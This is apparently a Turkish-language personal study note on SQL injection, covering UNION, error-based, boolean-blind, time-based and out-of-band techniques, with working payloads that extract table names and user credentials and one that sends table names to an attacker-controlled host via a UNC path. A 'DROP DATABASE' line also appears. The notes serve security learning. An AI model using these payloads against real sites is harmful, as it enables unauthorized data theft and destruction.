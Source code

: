 <h1 align="center">SQL Injection</h1>

---

# SQL Injection Nedir?
* Saldırganın, web yazılımını kullanarak veritabanı sorgusu çalıştırmabilmesidir.

### SQL Injection Nasıl Tespit Edilir?

* SQL INJECTION TIME BASED PAYLOADLAR ILE TESPIT EDILIR !!!! 
* Her db için ayrı sleep metodları vardır. 
* Data insert ederken bile sleep methodunu çalıştırabilirsin. 
* SQL Injection bulurken kendine bir referans noktası seçersin ve denediğin yöntemlerle bu ilk noktaya dönmeye çalışırsın. Başarırsan zaafiyeti kanıtlamışsın demektir.
* SQLi tespit etmek için URL kısmında şunları dene: 
```
..../productid=4'
	invalid falan verirse
..../productid=4''
	böylesini dene
..../productid=5-1
	dene
```

## Notlar

- SQL injectionda gönderdiğin data, arka tarafta SQL sorgusu olarak gidiyor. Data, data olarak kalırsa sorun çözülmüş olur.

- ORM uygulama denir buna. Prepare statement deniyor buna. İnputları parametrelendirmek yani.
![AAaaaa](https://github.com/grealyve/MDISec-Web-Security-and-Hacking-Notes/assets/41903311/18f973a7-e5cf-4a86-b87e-34a5c9da5a0a)

```SQL
database() --> mevcut database ismini döndürür

SELECT 2+1;
3

SELECT '2-1';
2-1

SELECT '2'-'1';     --> integer casting yapıyor
1                 

SELECT '2'+'a';    --> 2yi integer cast edebiliyor ama 'a'yı cast edemiyor.
2                 

SELECT 'b'+'a';
0

SELECT '2' '1'; veya SELECT concat('2','1');  --> boşluğu string concatenation yapıyor.
21        

SELECT SELECT '2' '1' 'a';
21a

SELECT SELECT '2' '1' 'a' - 1;   -->  önce çıkartmayı yapıp sonra string birleştirme yapıyor.
20a                 

SELECT 2^1;    -->     XOR operantı bu  2^2 = 0
3

SELECT ~1;    -->      max integer input
18446744073709551614

DROP DATABASE;
```

- Database tablolarına veri eklerken trim(boşlukları silme) işlemi yapmazken, veriyi çekerken trim yapıyor.

- SQL Injection kod örnekleri:
![1](https://github.com/grealyve/MDISec-Web-Security-and-Hacking-Notes/assets/41903311/d7f4bb63-1cb6-421a-af77-3b086c2132a5)
![2](https://github.com/grealyve/MDISec-Web-Security-and-Hacking-Notes/assets/41903311/a553e307-5cea-4525-8232-fe8c61b54b2b)

## UNION SQLi

.../id=2-1
- Peşpeşe SELECT sorgusu çalıştırmak için UNION kullan ama UNION kullanabilmen için 2. SELECT’deki kolon sayısı aynı olması gerekiyor. 
- UNION SELECT 1,2,3,4,5,6,7,8,9,10,11… böyle gidersin.
- Eğer ekranda 7 2 9 gibi değerler görüyorsan bu kodda 2. indisteki kodu uygulama, ekrana yaz demektir bu. Arama çubuğuna gidip 7 yerine version() fonksiyonunu çalıştırdığında veri çekebilir hale gelebilirsin.
- İlk SELECT sorgusunun cevabını görmemek için -99999999 yazabilirsin id UNION’dan önce.
- Sonra versiyon yerine database() yazarsan database ismini getirir.

```SQL
' UNION SELECT 1,2,3,4,5,6,table_name,8,9,10,11 FROM information_schema.tables WHERE table_schema = database()  
	  bu şekilde tablo isimlerini çektik

' UNION SELECT 1,2,3,4,5,6,column_name,8,9,10,11 FROM information_schema.column WHERE table_name = ‘users’  
	  users’ın kolonlarını çekme

' UNION SELECT 1,2,3,4,5,6,uname,8,9,10,11 FROM users  
	  uname yerine kolon isimlerinde ne çıkarsa artık
```
* bu kısımda fonksiyon kullanmak da verimli olabilir || 6,concat(uname,’:MDISEC:’,pass),8,9,..  || veya regex yazıp çözebilirsin.

## Error Based SQLi

- SQL sorgusunun database’de oluşturduğu syntax’ın geri dönmesi sonucu, o syntax hatası içine çıkartmak istediğni veriyi yerleştirmeyle oluşuyor.
- Eğer ki verdirttiğin hata tee database’e kadar gidiyorsa sen bu yardımcı metodu kullanarak data getirebilirsin. XML şeklinde veriyorsun
- Syntax hatası olmadan bu tür olmaz.
```SQL
rand() —> 0-1 arası random sayı üretir.

SELECT extractvalue(rand(), concat(1,"Ali"));
		burada sonuç olarak hata dönüyor ama içinde "Ali" de geçiyor. Sorgunun içindeki string değeri hatanının içinde döndürtmeyi başardın demek.
		böylece subquery kullanabilirsin demek oluyor.
SELECT extractvalue(rand(), concat(1,(SELECT 'mehmet')));  eğer yine hatada mehmet dönerse istediğin sorguyu atabilirsin.
SELECT extractvalue(rand(), concat(1,(SELECT database())));
```

## AND/OR SQLi
```SQL
SELECT extractvalue(rand(), concat(1,"Ali"));
		burada sonuç olarak hata dönüyor ama içinde "Ali" de geçiyor. Sorgunun içindeki string değeri hatanının içinde döndürtmeyi başardın demek.
		böylece subquery kullanabilirsin demek oluyor.
SELECT extractvalue(rand(), concat(1,(SELECT 'mehmet')));  eğer yine hatada mehmet dönerse istediğin sorguyu atabilirsin.
SELECT extractvalue(rand(), concat(1,(SELECT database())));
```

## WHERE id IN (1)
```SQL
www.x.com/?id=1) UNION SELECT #
```

## Tırnaklama
```SQL
SELECT * FROM users WHERE id = '1'''; 
	olduğunda tırnak, tırnağı escape edeceği için sana yine cevabı çevirmiş olur. 3 tane tırnak olsa hata verir.
```

## Boolean-Based / Blind SQLi
- Örnek python kodu:
```python
if result().size > 0:
	print("haber var")
else:
	print("haber yok")
```
> Bu şekilde injection yapılabiliyor:
```SQL
SELECT * FROM haberler WHERE id = 1 and 1=1
SELECT * FROM haberler WHERE id = 1 and (SELECT 1)=1
SELECT * FROM haberler WHERE id = 1 and (SELECT 1)=2  2 
	yaparak referans noktanın değiştiğini gözlemle.
SELECT * FROM haberler WHERE id = 1 and SUBSTRING('MEHMET',1,1)='M'  
	Substring fonksiyonu string ifadeyi indexten indexe kesecek işlemi yapar.
SELECT * FROM haberler WHERE id = 1 and SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 1,1), 1, 1)='a'
	ilk tablo ismini stringi bölerek 'a' eşitlemeye çalışır. 'u' yu bulana kadar alfabetik değiştir. 2 tane for döngüsüyle bütün harfleri bulursun.
Bu işlemi hızlandırmak için:
SELECT * FROM haberler WHERE id = 1 and ASCII(SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 1,1), 1, 1))> 80
SELECT * FROM haberler WHERE id = 1 and ASCII(SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_name='users' LIMIT 1,1), 1, 1))> 80
```
## Time Based SQLi
> Bu şekilde injection yapılabiliyor:
```
SELECT * FROM haberler WHERE id = 1 and 1=IF (1=1,1,0)  condition doğruysa 1 dön değilse 0 dön.
SELECT * FROM haberler WHERE id = 1 and 1=IF (1=1,sleep(5),0)      eğer cevap dönmesi uzun sürerse açığı yakaladın demektir.
	Sonrasında SUBSTRING ve ASCII'den yürü.
```
## Out-of-Band SQLi
- Örnek python kodu:
```
id = request.get('id')

rabbitmq.pushTask('report_generate',id)
	Senden gelen integer değerleri SQL sorgusu içine yolluyor yani içeride başka işler dönüyor. sleep falan yaramaz aga.
print("selam")
```
> Bu şekilde injection yapılabiliyor:
```SQL
SELECT 'ali' INTO OUTFILE '/tmp/test.txt'; komutu diske bir şeyler yazmana yarar. Bunu kullanarak bir şeyler elde edebilirsin.
SELECT 'ali' INTO OUTFILE '\\\hacker.mdisec.com/a'; windows un özelliğidir bu samba protoklü ile verilen domainin 445.portuna gitmeye çalışır.
	Bunun subdomainine subSELECT kurarsan rahatça table_name falan elde edersin.
SELECT * INTO OUTFILE '\\\'+(SELECT table_name FROM information_schema.tables WHERE table_schema=database())+.mdisec.com/a'
	DB'in bağlı olduğu DNS serveri üstünden senin name serverına istek atar ve dataları orada görürsün.
```
